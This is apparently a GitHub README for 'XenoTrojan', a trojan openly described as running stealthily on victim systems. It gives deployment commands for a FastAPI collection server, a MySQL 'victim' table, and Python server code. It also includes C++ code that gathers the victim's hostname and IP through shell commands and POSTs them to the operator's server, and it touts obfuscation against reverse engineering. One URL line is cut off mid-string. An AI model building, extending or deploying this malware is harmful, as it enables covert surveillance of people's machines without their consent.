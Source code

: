 
# XenoTrojan

![XenoTrojan Logo](img/ico/space_star.png)

XenoTrojan is a sophisticated trojan project designed for deploying APIs on VPS instances. It efficiently collects victim API data and securely stores it in a MySQL database using FastAPI for rapid API handling.

## Table of Contents

1. [Introduction](#introduction)
2. [Folder Structure](#folder-structure)
3. [API Deployment](#api-deployment)
4. [Database Setup](#database-setup)
5. [Compiling XenoTrojan](#compiling-xenotrojan)
6. [Running XenoTrojan](#running-xenotrojan)
7. [API Lib Requirements](#api-lib-requirements)
8. [Additional Notes](#additional-notes)
9. [Contributing](#Contributing)
10.[Credits](#Credits)

## Introduction

XenoTrojan is developed to operate stealthily on victim systems, leveraging FastAPI to manage and transmit collected API data efficiently to a central MySQL server. It includes advanced features like obfuscation tools (`dcode`) to enhance security and prevent reverse engineering.

## Folder Structure

```
├── API
│   ├── APP
│   │   ├── config.cfg
│   │   ├── main.py
│   │   ├── requirements.txt
│   │   └── runs.txt
├── db
│   └── db.sql
├── ELF
│   └── XenoTrojan
└── cpp
    ├── api-get.txt
    └── XenoTrojan.cpp
```

## API Deployment

To deploy the FastAPI server on your VPS, execute the following command:

```bash
nohup uvicorn main:app --host 0.0.0.0 --port 3993 > fastapi.log 2>&1 &
```

This command starts the FastAPI server to handle incoming API requests from deployed trojans.

## Database Setup

Ensure your MySQL database is set up with the following schema:

```sql
CREATE TABLE `victim` (
  `id` int(11) NOT NULL AUTO_INCREMENT,
  `ip` varchar(45) NOT NULL,
  `timestamp_column` timestamp NOT NULL DEFAULT current_timestamp(),
  PRIMARY KEY (`id`)
);
```

Update the `config.cfg.example` file with your database credentials:

```bash
cp .\config.cfg.example .\config.cfg
```

Edit the following variables in the `config.cfg` file to match your MySQL database configuration:

```
DB_HOST=localhost
DB_USER=root
DB_PASSWORD=
DB_DATABASE=
```

## Compiling XenoTrojan

Before compiling, install the required libraries:

```bash
sudo apt update
sudo apt install libcurl4-openssl-dev
```

Compile `XenoTrojan.cpp` to an ELF executable:

```bash
g++ XenoTrojan.cpp -o XenoTrojan -lcurl
```

## Running XenoTrojan

Run the compiled XenoTrojan ELF executable:

```bash
./XenoTrojan
```

XenoTrojan will stealthily collect victim API data and transmit it securely to your FastAPI server.

## API Lib Requirements

Ensure the following Python libraries are installed for your FastAPI deployment:

```
fastapi
uvicorn
mysql-connector-python
python-dotenv
```

Install these libraries using pip:

```bash
pip install -r requirements.txt
```

## Additional Notes

XenoTrojan utilizes advanced techniques like obfuscation (`dcode`) to complicate reverse engineering attempts, ensuring the security and resilience of your deployment.

## API Script Explanation

The `main.py` script in the `APP` directory handles incoming API requests using FastAPI. It connects to a MySQL database specified in the `config.cfg` file to store victim IP addresses.

```python
from fastapi import FastAPI, HTTPException
from pydantic import BaseModel
import mysql.connector
from dotenv import load_dotenv
import os

app = FastAPI()

class IPRecord(BaseModel):
    ip: str

load_dotenv("config.cfg")

DB_HOST = os.getenv('DB_HOST')
DB_USER = os.getenv('DB_USER')
DB_PASSWORD = os.getenv('DB_PASSWORD')
DB_DATABASE = os.getenv('DB_DATABASE')

@app.post("/register_ip/")
async def register_ip(record: IPRecord):
    try:
        connection = mysql.connector.connect(
            host=DB_HOST,
            user=DB_USER,
            password=DB_PASSWORD,
            database=DB_DATABASE
        )
        cursor = connection.cursor()
        query = "INSERT INTO victim (ip) VALUES (%s)"
        cursor.execute(query, (record.ip,))
        connection.commit()
        cursor.close()
        connection.close()
    except mysql.connector.Error as err:
        pass

if __name__ == "__main__":
    import uvicorn
    uvicorn.run(app, host="0.0.0.0", port=3993)
```

## Main Part of XenoTrojan C++ Code Explanation

The main functionality of `XenoTrojan.cpp` involves obtaining the hostname and IP address of the victim system and sending this data to the FastAPI server via HTTP POST request with JSON payload.

```cpp
void c() {
    string hostname = exec("hostname");
    hostname.erase(remove(hostname.begin(), hostname.end(), '\n'), hostname.end());

    string cmd = "host -t A " + hostname + " | grep 'has address' | cut -d ' ' -f 4";
    string ip = exec(cmd.c_str());
    ip.erase(remove(ip.begin(), ip.end(), '\n'), ip.end());

    string url = "http:
    string data = "{\"hostname\": \"" + hostname + "\", \"ip\": \"" + ip + "\"}";

    CURL *curl;
    CURLcode res;

    curl_global_init(CURL_GLOBAL_DEFAULT);
    curl = curl_easy_init();
    if(curl) {
        struct curl_slist *headers = NULL;
        headers = curl_slist_append(headers, "Content-Type: application/json");

        curl_easy_setopt(curl, CURLOPT_URL, url.c_str());
        curl_easy_setopt(curl, CURLOPT_POSTFIELDS, data.c_str());
        curl_easy_setopt(curl, CURLOPT_HTTPHEADER, headers);

        res = curl_easy_perform(curl);
        if(res != CURLE_OK) {
            fprintf(stderr, "curl_easy_perform() failed: %s\n", curl_easy_strerror(res));
        }

        curl_easy_cleanup(curl);
        curl_slist_free_all(headers);
    }

    curl_global_cleanup();
}
```

This function fetches the hostname and corresponding IP address, constructs a JSON payload, and sends it to the FastAPI server using libcurl in C++. Adjustments to this function can enhance or modify the data collection and transmission capabilities of XenoTrojan.


## Contributing

Contributions are welcome! Please open an issue or submit a pull request for any improvements or bug fixes.

## Credits
[qays3](https://github.com/qays3) ([Support qays](https://buymeacoffee.com/hidden))
